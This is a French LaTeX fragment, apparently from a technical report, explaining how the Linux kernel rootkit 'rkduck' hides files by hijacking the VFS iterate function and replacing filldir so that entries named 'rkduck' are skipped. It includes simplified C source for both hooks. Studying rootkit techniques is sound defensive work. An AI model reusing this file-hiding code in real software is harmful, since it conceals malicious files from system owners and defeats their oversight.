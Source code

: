 \documentclass[12pt]{article}
\begin{document}
\begin{listing}[H]
\begin{verbatim}
int vfs_hijacked_iterate(struct file *file, struct dir_context *ctx) {
    int ret;

    *((filldir_t *)&ctx->actor) = &vfs_hijacked_filldir;

    vfs_hijack_stop(vfs_original_iterate);
    ret = vfs_original_iterate(file, ctx);
    vfs_hijack_start(vfs_original_iterate);

    return ret;
}
\end{verbatim}
\caption{Version simplifiée de vfs\_hijacked\_iterate dans rkduck}
\label{listing:3}
\end{listing}

        Comme nous l'avons spécifié précédemment, le code original de la fonction \texttt{iterate} a été sauvegardé. Une fois que l'on a modifié la structure \texttt{struct dir\_context *ctx} pour qu'elle contienne un pointeur vers notre fonction \texttt{hijacked\_filldir}, on rétabli le code original de la fonction \texttt{iterate} grâce à la fonction \texttt{vfs\_hijack\_stop}. Ensuite on appelle \texttt{iterate} qui va maintenant faire appel à notre fonction \texttt{hijacked\_filldir} au lieu de l'original. Ainsi, en recodant \texttt{filldir} pour qu'elle renvoit \texttt{0} lorsqu'un fichier qu'on veut cacher a été passé en paramètre (\texttt{rkduck} dans l'exemple ci-dessous), on peut effectivement dissimuler à l'utilisateur légitime des fichiers malveillants. Il ne reste plus qu'à détourner à nouveau la fonction \texttt{iterate} pour qu'on puisse continuer la dissimulation de fichiers grâce à la fonction \texttt{vfs\_hijack\_start}.\\

\begin{listing}[H]
\begin{verbatim}
static int 
vfs_hijacked_filldir(struct dir_context *ctx, const char *name, 
                     int namelen, loff_t offset, u64 ino, 
                     unsigned int d_type) 
{
    char *get_protect = "rkduck";
    
    if (strstr(name, get_protect)) {
        return 0;
    }

    return vfs_original_filldir(ctx, name, namelen, offset, ino, d_type);
}
\end{verbatim}
\caption{Version simplifiée de vfs\_hijacked\_filldir dans rkduck}
\label{listing:3}
\end{listing}
\end{document}
